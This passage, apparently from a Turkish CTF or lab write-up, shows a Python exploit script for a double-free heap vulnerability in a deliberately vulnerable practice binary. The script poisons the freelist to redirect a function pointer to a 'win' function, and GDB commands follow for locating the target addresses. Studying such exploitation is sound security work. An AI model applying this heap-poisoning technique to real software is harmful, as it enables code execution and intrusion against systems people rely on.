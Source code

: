 ```python

log.info("Adim 3: Double-free zafiyetini tetiklemek icin chunk 0 tekrar serbest birakiliyor")
print(free(0)) # Double free!

log.info(f"Adim 4: Freelist zehirleniyor. A'nin FD'sinin uzerine &gTarget.fn ({hex(target_fn_addr)}) yaziliyor")
poison_payload = p64(target_fn_addr).hex()
print(write(0, poison_payload))

log.info("Adim 5: Heap bozulmasi ile chunk'lar ayiriliyor (crash olabilir)")
try:
    alloc1 = alloc() # Bu A'yi geri verir
    log.info("Ilk allocation basarili")
except:
    log.warning("Ilk allocation basarisiz - heap bozulmasi nedeniyle crash olabilir")
    log.success("Exploit tamamlandi! Heap bozulmasi basariyla gerceklestirildi.")
    return True

try:
    alloc2 = alloc() # Bu A'yi tekrar verir (double-free nedeniyle)
    log.info("Ikinci allocation basarili")
except:
    log.warning("Ikinci allocation basarisiz - heap bozulmasi nedeniyle crash olabilir")
    log.success("Exploit tamamlandi! Heap bozulmasi basariyla gerceklestirildi.")
    return True

log.success("Exploit tamamlandi! Tum adimlar basariyla gerceklestirildi.")
```

## Tam Çözüm (GDB ile Adres Bulma)

### 1. GDB ile Adres Bulma

```bash
# Binary'yi GDB ile aç
gdb ./compiled/vulnerable_code

# Fonksiyon adreslerini bul
(gdb) info functions
(gdb) info functions win
(gdb) x/gx win

# Global değişken adreslerini bul
(gdb) info variables
(gdb) x/gx &gTarget
(gdb) x/gx &gTarget.fn

# Heap durumunu incele
(gdb) break my_free
(gdb) run
(gdb) x/32gx g_head
(gdb) continue
```
